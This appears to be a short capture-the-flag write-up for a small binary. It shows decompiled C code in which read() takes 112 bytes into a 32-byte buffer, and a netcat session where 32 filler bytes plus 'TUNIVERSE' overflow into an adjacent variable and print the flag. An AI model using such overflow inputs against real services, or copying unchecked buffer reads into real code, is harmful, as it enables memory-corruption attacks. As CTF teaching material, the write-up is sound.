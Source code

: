 # Solution

It's a small binary that can be easily reversed. This is the key to getting the flag:
```c
char data[32];
char admin[80];
admin[9] = 0x00;
data[32] = 0x00;
printf(" Give us your name: ");
read(0, &data, 112);
printf("\n");
printf("HELLO %s", data);
if (strncmp(admin, "TUNIVERSE", 8) == 0) {
	a();
}
```

The `a` function will print us the flag if `admin` is set to `TUNIVERSE`. So what we need to do is overflow the `data` with 32 bytes and input `TUNIVERSE` so we overflow into the `admin` variable:

```
$ nc localhost 9000
-------------------------------------
-------- free greet service ---------
-------------------------------------
----------- FEEL GOOD! :) -----------
-------------------------------------
 Give us your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAATUNIVERSE

HELLO AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAATUNIVERSE
ibctf{simpl3st_of-th3m-477}
---------------------------------------------
- thank you very much for using our service -
---------------------------------------------
^C
```
